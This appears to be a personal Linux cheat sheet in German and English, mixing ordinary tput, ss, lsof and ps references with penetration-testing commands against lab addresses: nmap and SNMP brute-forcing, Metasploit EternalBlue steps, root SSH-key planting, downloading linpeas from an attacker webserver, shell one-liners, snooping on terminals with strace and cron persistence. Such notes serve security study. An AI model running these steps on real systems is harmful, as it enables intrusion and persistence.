

# Linux CMD

### System Information

```
#Get Architecture
uname -a
cat /proc/version

#Get Distro
cat /etc/lsb-release
cat /etc/*-release
lsb_release -a

#Get extended information
hostnamectl
```

### Scanning


```
#Run nmap on an IP
nmap ip

#Run an nmap script scan on an IP
nmap -sV -sC -p- 10.129.42.253

#List various available nmap scripts
locate scripts/citrix

#Run an nmap script on an IP
nmap --script smb-os-discovery.nse -p445 10.10.10.40

#Grab banner of an open port
netcat 10.10.10.10 22

#List SMB Shares
smbclient -N -L \\\\10.129.42.253

#Connect to an SMB share
smbclient \\\\10.129.42.253\\users

#Scan SNMP on an IP
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0

#Brute force SNMP secret string
onesixtyone -c dict.txt 10.129.42.254
```


### Enumeration Unterordner


```
#Run a directory scan on a website |
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

#Run a sub-domain scan on a website
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

#Grab website banner
curl -IL https://www.inlanefreight.com

#List details about the webserver/certificates
whatweb 10.10.10.121

#List potential directories in "robots.txt"
curl 10.10.10.121/robots.txt

#View page source (in Firefox)
ctrl+U
```


### Öffentliche Exploits


```
#Search for public exploits for a web application
searchsploit openssh 7.2

#MSF: Start the Metasploit Framework
msfconsole

#MSF: Search for public exploits in MSF
search exploit eternalblue

#MSF: Start using an MSF module
use exploit/windows/smb/ms17_010_psexec

#MSF: Show required options for an MSF module
show options

#MSF: Set a value for an MSF module option
set RHOSTS 10.10.10.40

#MSF: Test if the target server is vulnerable
check

#MSF: Run the exploit on the target server is vulnerable
exploit
```


### PrivEsc


```
./linpeas.sh                   # Run `linpeas` script to enumerate remote server
sudo -l                        # List available `sudo` privileges
sudo -u user /bin/echo Hello World!  # Run a command with `sudo`
sudo su -                     # Switch to root user (if we have access to `sudo su`)
sudo su user -                # Switch to a user (if we have access to `sudo su`)
ssh-keygen -f key            # Create a new SSH key
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys  # Add the generated public key to the user
ssh root@10.10.10.10 -i key  # SSH to the server with the generated private key

#Alternative Shell Access
sh -c /bin/sh -i             # Alternative shell access
/bin/sh -i                  # Alternative shell access
sudo -i                          # Alternative shell access
sh -c uname -a; w; id; /bin/sh -i  # Gather system info and get shell
```


### Dateitransfer


```
python3 -m http.server 8000                  # Start a local webserver
wget http://10.10.14.1:8000/linpeas.sh        # Download a file on the remote server from our local machine
curl http://10.10.14.156:8000/linpeas.sh -o linpeas.sh  # Download a file on the remote server from our local machine
scp linenum.sh user@remotehost:/tmp/linenum.sh  # Transfer a file to the remote server with `scp` (requires SSH access)
base64 shell -w 0                              # Convert a file to `base64`
echo f0VMR...SNIO...InmDwU | base64 -d > shell  # Convert a file from `base64` back to its original
md5sum shell                                   # Check the file's `md5sum` to ensure it converted correctly
```


### find


```
find / -user root -perm -4000 -exec ls -ldb {} \;  # Find files with SUID permission
find / -type d -maxdepth 2 -writable                 # Writable directories
find / -type f -maxdepth 2 -writable                 # Writable files

# Search all files in the current folder and the folder below and
# search for the specified term.
# If found, the file and the line of the found file will be displayed
find . -type f -print0 | xargs -0 grep -Hn "meinWort"
```


### tput

| **Befehl**              | **Beschreibung**                                                                               | **Beispiel**                                   |
| ----------------------- | ---------------------------------------------------------------------------------------------- | ---------------------------------------------- |
| **Cursorsteuerung**     |                                                                                                |                                                |
| `tput cup <row> <col>`  | Bewegt den Cursor zu einer bestimmten Zeile (`row`) und Spalte (`col`).                        | `tput cup 5 10` (Cursor zu Zeile 5, Spalte 10) |
| `tput civis`            | Versteckt den Cursor.                                                                          | `tput civis`                                   |
| `tput cnorm`            | Zeigt den Cursor wieder an (falls versteckt).                                                  | `tput cnorm`                                   |
| `tput home`             | Bewegt den Cursor zur oberen linken Ecke (Zeile 0, Spalte 0).                                  | `tput home`                                    |
| `tput ll`               | Bewegt den Cursor zur letzten Zeile, erste Spalte.                                             | `tput ll`                                      |
| `tput cub <n>`          | Bewegt den Cursor um `<n>` Spalten nach links (Cursor Backward).                               | `tput cub 5` (5 Spalten nach links)            |
| `tput cuf <n>`          | Bewegt den Cursor um `<n>` Spalten nach rechts (Cursor Forward).                               | `tput cuf 10` (10 Spalten nach rechts)         |
| `tput cud <n>`          | Bewegt den Cursor um `<n>` Zeilen nach unten (Cursor Down).                                    | `tput cud 3` (3 Zeilen nach unten)             |
| `tput cuu <n>`          | Bewegt den Cursor um `<n>` Zeilen nach oben (Cursor Up).                                       | `tput cuu 2` (2 Zeilen nach oben)              |
| **Bildschirmsteuerung** |                                                                                                |                                                |
| `tput clear`            | Löscht den gesamten Bildschirm und setzt den Cursor an Position (0, 0).                        | `tput clear`                                   |
| `tput ed`               | Löscht alles vom aktuellen Cursor bis zum Ende des Bildschirms.                                | `tput ed`                                      |
| `tput el`               | Löscht den Inhalt der aktuellen Zeile vom Cursor bis zum Ende der Zeile.                       | `tput el`                                      |
| `tput el1`              | Löscht den Inhalt der aktuellen Zeile vom Anfang der Zeile bis zum Cursor.                     | `tput el1`                                     |
| `tput smcup`            | Wechselt in den alternativen Bildschirmpuffer (oft in Vollbild-Terminalanwendungen verwendet). | `tput smcup`                                   |
| `tput rmcup`            | Kehrt zum normalen Bildschirm vom alternativen Puffer zurück.                                  | `tput rmcup`                                   |
| **Textformatierung**    |                                                                                                |                                                |
| `tput bold`             | Aktiviert fettgedruckten Text.                                                                 | `tput bold`                                    |
| `tput sgr0`             | Setzt alle Textattribute (Farbe, Fett, etc.) auf Standard zurück.                              | `tput sgr0`                                    |
| `tput smul`             | Aktiviert unterstrichenen Text.                                                                | `tput smul`                                    |
| `tput rmul`             | Deaktiviert unterstrichenen Text.                                                              | `tput rmul`                                    |
| `tput rev`              | Aktiviert die inverse Darstellung (Text und Hintergrundfarben vertauschen).                    | `tput rev`                                     |
| **Farben**              |                                                                                                |                                                |
| `tput setaf <color>`    | Setzt die Vordergrundfarbe (Textfarbe).                                                        | `tput setaf 1` (Textfarbe auf Rot setzen)      |
| `tput setab <color>`    | Setzt die Hintergrundfarbe.                                                                    | `tput setab 4` (Hintergrund auf Blau setzen)   |
| **Terminalgröße**       |                                                                                                |                                                |
| `tput cols`             | Gibt die Anzahl der Spalten (Breite des Terminals) zurück.                                     | `tput cols`                                    |
| `tput lines`            | Gibt die Anzahl der Zeilen (Höhe des Terminals) zurück.                                        | `tput lines`                                   |

#### Erläuterung der Farbcodes bei `setaf` und `setab`:

* **0** = Schwarz
* **1** = Rot
* **2** = Grün
* **3** = Gelb
* **4** = Blau
* **5** = Magenta
* **6** = Cyan
* **7** = Weiß

#### Beispiele für häufige Kombinationen:

**Farbige Ausgabe an einer bestimmten Position:**

```bash
tput clear          # Bildschirm löschen
tput cup 5 10       # Cursor auf Zeile 5, Spalte 10 setzen
tput setaf 2        # Textfarbe auf Grün setzen
echo "Grüner Text"
tput sgr0           # Zurücksetzen der Farben
```

**Terminalgröße abfragen:**

```bash
rows=$(tput lines)  # Zeilenanzahl des Terminals
cols=$(tput cols)   # Spaltenanzahl des Terminals
echo "Terminal hat $rows Zeilen und $cols Spalten"
```

### smbclient


```
smbclient //host/share -U "%" " "     # Guest login
smbclient //host/share -U guest%       # Access as guest
```


### Linpeas


```
# Run linpeas without chmod +x
bash linpeas.sh

#Enumeration

# Files owned by the current user
find / -user $(whoami) -type f -exec ls -la {} \; 2>/dev/null | grep -v '/proc/*\|/sys/*' 
```


### RDP


```
xfreerdp /u:<username> /p:<passwort> /w:<weite> /h:<hoehe> /v:<ip>
```


### Dateiinformationen Modifikation

```
stat -c '%y' <file> # zuletzt modifiziert
'%Y' # Sekunden seit 
'%n' # Dateinamen

'%Y : %n' # Verknüpfung
```

### who/w Command Injection

```
# Anzeige aller aktiven Sitzungen
who

#Write in Sitzung
write <user> <tty>
write bob pts/0

#Falls keine Berechtigungen für write vorhanden, dann freischaltbar durch
mesg y

#Pipe einer Nachricht
echo "Hello World!" | write user

#Pipe einer Datei
write user < datei.txt
```

### User Tracking

```
# PIDs der pts anzeigen
ps -t pts/1

# Terminalausgabe in Echtzeit
strace -p 1234 -f -e trace=write
```

### Ports

```
#Offene Ports anzeigen
sudo lsof -P -i tcp | grep LISTEN

#Offene Ports
netstat -tulp
```

### Netzwerk- und Prozessanalyse

````
### 'ss' Cheat Sheet

# Grundlegende Optionen
- t: Zeigt TCP-Verbindungen.
- u: Zeigt UDP-Verbindungen.
- d: Zeigt DCCP-Verbindungen.
- w: Zeigt RAW-Sockets.
- x: Zeigt UNIX-Domain-Sockets.
- l: Zeigt nur lauschende (listening) Sockets.
- p: Zeigt die zugehörigen Prozesse.
- n: Zeigt numerische Adressen anstatt DNS-Namen.

# Beispiele
# Zeigt alle TCP-Verbindungen:
ss -t

# Zeigt alle UDP-Verbindungen:
ss -u

# Zeigt alle lauschenden TCP- und UDP-Verbindungen:
ss -tul

# Zeigt alle Verbindungen mit Prozessinformationen:
ss -tnp


### 'lsof' Cheat Sheet

# Grundlegende Optionen
- i: Zeigt alle Netzwerkverbindungen.
- i :PORT: Zeigt Verbindungen an einem bestimmten Port.
- i TCP: Zeigt alle TCP-Verbindungen.
- i UDP: Zeigt alle UDP-Verbindungen.
- u USER: Zeigt alle Dateien, die von einem bestimmten Benutzer geöffnet sind.
- p PID: Zeigt alle Dateien, die von einem bestimmten Prozess geöffnet sind.
- n: Zeigt numerische Adressen und Ports anstelle von Namen.
- P: Zeigt numerische Ports anstelle von Servicenamen.

# Beispiele
# Zeigt alle Netzwerkverbindungen:
lsof -i

# Zeigt alle Verbindungen an Port 22:
lsof -i :22

# Zeigt alle TCP-Verbindungen:
lsof -i TCP

# Zeigt alle von einem bestimmten Benutzer geöffneten Dateien:
lsof -u username


### 'ps' Cheat Sheet

# Grundlegende Optionen
- a: Zeigt Prozesse von allen Benutzern an.
- u: Zeigt die Prozesse des aktuellen Benutzers an.
- x: Zeigt auch Prozesse ohne Terminal an.
- e oder A: Zeigt alle Prozesse an.
- f: Zeigt Prozesse in einer Baumstruktur an.
- l: Zeigt detaillierte Informationen über Prozesse an.
- p PID: Zeigt Informationen über einen spezifischen Prozess an.
- u USER: Zeigt Prozesse von einem bestimmten Benutzer an.
- o Options: Zeigt Options an

# Beispiele
# Zeigt alle Prozesse:
ps -e

# Zeigt Prozesse mit ausführlichen Informationen:
ps -ef

# Zeigt Prozesse in einer Baumstruktur:
ps -ef --forest

# Zeigt Prozesse von einem bestimmten Benutzer:
ps -u username

# Zeigt einen bestimmten Prozess:
ps -p PID

Output
Hier ist eine umfassende Tabelle mit allen gängigen Parametern, die du mit der `-o` Option im Befehl `ps` unter Linux verwenden kannst. Jeder Parameter wird zusammen mit einer kurzen Erklärung beschrieben:

                                             |

### Beispiele für den Einsatz:
1. **Nur grundlegende Prozessinformationen anzeigen:**
   ```bash
   ps -p <PID> -o pid,ppid,cmd
   ```

2. **Erweiterte Prozessinformationen:**
   ```bash
   ps -p <PID> -o pid,ppid,cmd,%mem,%cpu,stime,etime
   ``'

````


```markup
| **Parameter**   | **Beschreibung**                                                                   |
|-----------------|------------------------------------------------------------------------------------|
| `pid`           | Prozess-ID (PID) des Prozesses.                                                    |
| `ppid`          | Parent-Prozess-ID (PPID), also die PID des übergeordneten Prozesses.               |
| `uid`           | User-ID (UID) des Benutzers, der den Prozess gestartet hat.                        |
| `user`          | Benutzername des Benutzers, der den Prozess gestartet hat.                         |
| `euid`          | Effektive User-ID (UID) des Prozesses.                                             |
| `euser`         | Effektiver Benutzername des Prozesses.                                             |
| `gid`           | Gruppen-ID (GID) des Benutzers, der den Prozess gestartet hat.                     |
| `group`         | Gruppenname des Benutzers, der den Prozess gestartet hat.                          |
| `egid`          | Effektive Gruppen-ID (GID) des Prozesses.                                          |
| `egroup`        | Effektiver Gruppenname des Prozesses.                                              |
| `comm`          | Name des Programms oder Befehls (kann abgeschnitten sein).                         |
| `cmd`           | Vollständiger Befehl, der den Prozess gestartet hat (einschließlich Argumente).    |
| `args`          | Vollständiger Befehl inklusive aller Argumente.                                    |
| `stime`         | Startzeit des Prozesses.                                                           |
| `etime`         | Verstrichene Zeit seit dem Start des Prozesses.                                    |
| `time`          | Gesamte CPU-Zeit, die vom Prozess verwendet wurde.                                 |
| `%cpu`          | Prozentsatz der CPU-Auslastung des Prozesses.                                      |
| `%mem`          | Prozentsatz des verwendeten physischen Speichers (RAM).                            |
| `vsz`           | Virtuelle Speichernutzung des Prozesses in Kilobytes.                              |
| `rss`           | Resident Set Size: Tatsächliche Speichernutzung des Prozesses in Kilobytes.        |
| `rsslim`        | Maximales Speicherlimit des Prozesses (in Kilobytes).                              |
| `tty`           | Zugeordnetes Terminal, falls vorhanden.                                            |
| `stat`          | Prozessstatus (z.B. `R` für Running, `S` für Sleeping, `Z` für Zombie).            |
| `flags`         | Interne Flags des Prozesses.                                                       |
| `pri`           | Priorität des Prozesses (je niedriger der Wert, desto höher die Priorität).        |
| `ni`            | Nice-Wert des Prozesses, beeinflusst die Priorität.                                |
| `wchan`         | Name des Kernel-Events, auf das der Prozess wartet.                                |
| `lstart`        | Exakte Startzeit und Startdatum des Prozesses.                                     |
| `c`             | CPU-Auslastung im Vergleich zu anderen Prozessen.                                  |
| `sess`          | Sitzungs-ID des Prozesses.                                                         |
| `pgid`          | Prozessgruppen-ID des Prozesses.                                                   |
| `sid`           | Sitzungs-ID des Prozesses.                                                         |
| `lwp`           | Thread-ID (Lightweight Process ID) des Prozesses.                                  |
| `nlwp`          | Anzahl der Threads (Lightweight Processes), die der Prozess besitzt.               |
| `maj_flt`       | Anzahl der Major-Page-Faults (Speicherzugriffsfehler, die Festplattenzugriff erfordern). |
| `min_flt`       | Anzahl der Minor-Page-Faults (Speicherzugriffsfehler, die im RAM behoben werden konnten). |
| `nwchan`        | Kernel-Event, auf das der Prozess wartet (ähnlich wie `wchan`).                    |
| `psr`           | Die CPU, auf der der Prozess aktuell läuft.                                        |
| `rtprio`        | Realtime-Priorität des Prozesses (nur für Echtzeitprozesse).                       |
| `sched`         | Scheduling-Klasse des Prozesses (z.B. normal, batch, idle).                        |
| `f`             | Flags des Prozesses in hexadezimaler Darstellung.                                  |
| `uid_real`      | Reale Benutzer-ID (UID) des Prozesses.                                             |
| `uname`         | Benutzername, dem der Prozess gehört.                                              |
| `ucomm`         | Der Name des ausgeführten Programms.  
```


### Cronjob

```
# Cronjob für aktuell angemeldeten User anlegen
crontab -e

# Allgemein einen Job anlegen unter
nano /etc/crontab

# Automatischer Start eines .sh nach Reboot (unter crontab -e oder /etc/crontab)
@reboot /bin/bash /tmp/autostart.sh
```

### User

```
# Benutzer anlegen
useradd <user>

# + interaktiv
adduser <user>
```

### Grafik

<div data-full-width="false"><figure><figcaption></figcaption></figure></div>

